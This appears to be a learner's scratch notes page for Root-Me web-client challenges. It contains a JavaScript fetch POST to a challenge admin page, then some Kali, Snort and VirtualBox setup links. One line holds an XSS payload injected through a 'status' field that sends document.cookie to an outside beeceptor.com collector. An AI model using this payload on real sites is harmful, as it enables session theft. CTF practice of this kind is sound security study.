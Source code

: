 const rep = await fetch("http://challenge01.root-me.org/web-client/ch19/?section=admin", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "accept-language": "fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7",
    "cache-control": "max-age=0",
    "content-type": "application/x-www-form-urlencoded",
    "upgrade-insecure-requests": "1"
  },
  "referrer": "http://challenge01.root-me.org/web-client/ch19/?section=admin",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "titre=coucou&message=la bise",
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
})
.then(response => response.text())
.then((response) => {
	console.log(response)
       })
.catch(err => console.log(err))
;

status=invite"><script>window.location = "https://x.free.beeceptor.com/foo?cookiz=".concat(document.cookie)</script>
https://github.com/Dewalt-arch/pimpmykali

https://github.com/morrownr/8812au-20210629

https://security.stackexchange.com/questions/135204/unable-to-obtain-tcp-http-traffic-from-wpa2-packets-even-with-full-handshake-and

https://resources.infosecinstitute.com/topic/snort-rules-workshop-part-one/#:~:text=To%20verify%20the%20Snort%20version,and%20the%20network%20interface%20value.

Correction Copier-Coller bidrectionnel VBox
- sudo apt-get install virtualbox-guest-additions-iso
- https://lecrabeinfo.net/virtualbox-installer-les-additions-invite-guest-additions.html
